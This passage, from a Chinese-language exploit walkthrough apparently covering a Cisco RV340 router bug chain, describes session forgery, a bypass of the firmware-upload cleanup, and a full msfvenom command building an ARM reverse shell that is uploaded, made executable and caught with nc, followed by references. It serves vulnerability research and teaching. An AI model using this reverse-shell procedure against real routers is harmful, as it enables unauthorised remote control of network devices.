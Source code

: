 注意，伪造的时候需要伪造两个文件：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659841971857-b3aa8904-2b80-44c3-98d4-20341c0211be.png)

#### 漏洞封堵
没有命令执行，何来会话伪造？

### ⑤、msf反弹shell
**从前面的篇幅可以知道，当/tmp/firmware文件夹存在时，固件升级失败后会将upload文件夹中对应的上传内容清空；但是当不存在时，则会**`**Error Input**`**无法命令执行。想要绕过这一点可以使用如下方法：**

> **上传会话伪造脚本使用的就是这种方法。**
>

正常情况下真实环境中路由器的`/tmp/signature`文件夹是存在的，与`/tmp/firmware`性质一样，所以我们可以命令执行删除`signature`文件夹，然后上传，这样我们upload里的文件就保留了。使用使用kali的msf生成反向shell：`msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-arm`，上传：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659843182022-fdf3d824-52fd-426d-8cd1-dcd31329e585.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659843420769-840a7c47-e96e-40ee-93c6-664c9bce86e8.png)

**授予可执行权限：**

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659843520799-ad4a7d00-d50d-48a1-b518-0d59fa45e435.png)

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659843552767-8a78912a-6dfe-4b8a-8c0c-ca21e4e04b10.png)

**本机nc监听后执行程序：**

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1659843732161-08a8580b-c4e5-4c8e-a0ae-460a3f0fb1fe.png)

完成。

# 3、参考资料（PDF）
> + [https://bestwing.me/Pwning%20a%20Cisco%20RV340%20%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%EF%BC%88CVE-2022-20705%20%E5%92%8C%20CVE-2022-20707.html#Related-vulnerability-tracking](https://bestwing.me/Pwning%20a%20Cisco%20RV340%20%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%EF%BC%88CVE-2022-20705%20%E5%92%8C%20CVE-2022-20707.html#Related-vulnerability-tracking)
> + [https://mp.weixin.qq.com/s?__biz=MzkzNjMxNDM0Mg==&mid=2247484452&idx=1&sn=1b6f10f8f1a1dd76134251b2b79ca0fe&chksm=c2a1d0adf5d659bb6ac6c64642cd745499c11ac98b539f4d2faa4392085b5756cf81cc30e8c7&mpshare=1&scene=1&srcid=05138YZTtUf1uWLemQEPQVJG&sharer_sharetime=1652415617946&sharer_shareid=e2810228000aab536ea6dcae2afc9cd8&version=4.0.6.6516&platform=win#rd](https://mp.weixin.qq.com/s?__biz=MzkzNjMxNDM0Mg==&mid=2247484452&idx=1&sn=1b6f10f8f1a1dd76134251b2b79ca0fe&chksm=c2a1d0adf5d659bb6ac6c64642cd745499c11ac98b539f4d2faa4392085b5756cf81cc30e8c7&mpshare=1&scene=1&srcid=05138YZTtUf1uWLemQEPQVJG&sharer_sharetime=1652415617946&sharer_shareid=e2810228000aab536ea6dcae2afc9cd8&version=4.0.6.6516&platform=win#rd)
> + [https://blog.relyze.com/2022/04/pwning-cisco-rv340-with-4-bug-chain.html](https://blog.relyze.com/2022/04/pwning-cisco-rv340-with-4-bug-chain.html)
> + [http://www.ctfiot.com/1159.html](http://www.ctfiot.com/1159.html)
>
